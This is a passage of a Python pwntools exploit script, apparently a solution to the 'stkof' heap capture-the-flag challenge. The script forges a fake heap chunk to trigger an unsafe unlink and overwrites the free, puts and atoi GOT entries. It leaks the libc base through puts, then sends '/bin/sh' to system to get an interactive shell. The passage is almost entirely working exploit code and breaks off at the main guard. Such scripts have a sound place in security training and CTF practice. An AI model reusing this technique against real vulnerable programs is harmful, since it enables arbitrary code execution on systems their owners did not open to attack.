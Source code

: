 ```python


def free(idx):
    p.sendline('3')
    p.sendline(str(idx))


def exp():
    # trigger to malloc buffer for io function
    alloc(0x100)  # idx 1
    # begin
    alloc(0x30)  # idx 2
    # small chunk size in order to trigger unlink
    alloc(0x80)  # idx 3
    # a fake chunk at global[2]=head+16 who's size is 0x20
    payload = p64(0)  #prev_size
    payload += p64(0x20)  #size
    payload += p64(head + 16 - 0x18)  #fd
    payload += p64(head + 16 - 0x10)  #bk
    payload += p64(0x20)  # next chunk's prev_size bypass the check
    payload = payload.ljust(0x30, 'a')

    # overwrite global[3]'s chunk's prev_size
    # make it believe that prev chunk is at global[2]
    payload += p64(0x30)

    # make it believe that prev chunk is free
    payload += p64(0x90)
    edit(2, len(payload), payload)

    # unlink fake chunk, so global[2] =&(global[2])-0x18=head-8
    free(3)
    p.recvuntil('OK\n')

    # overwrite global[0] = free@got, global[1]=puts@got, global[2]=atoi@got
    payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(
        stkof.got['atoi'])
    edit(2, len(payload), payload)

    # edit free@got to puts@plt
    payload = p64(stkof.plt['puts'])
    edit(0, len(payload), payload)

    # free global[1] to leak puts addr
    free(1)
    puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base: ' + hex(libc_base))
    log.success('/bin/sh addr: ' + hex(binsh_addr))
    log.success('system addr: ' + hex(system_addr))

    # modify atoi@got to system addr
    payload = p64(system_addr)
    edit(2, len(payload), payload)
    p.send(p64(binsh_addr))
    p.interactive()


if __name__ == "__main__":
```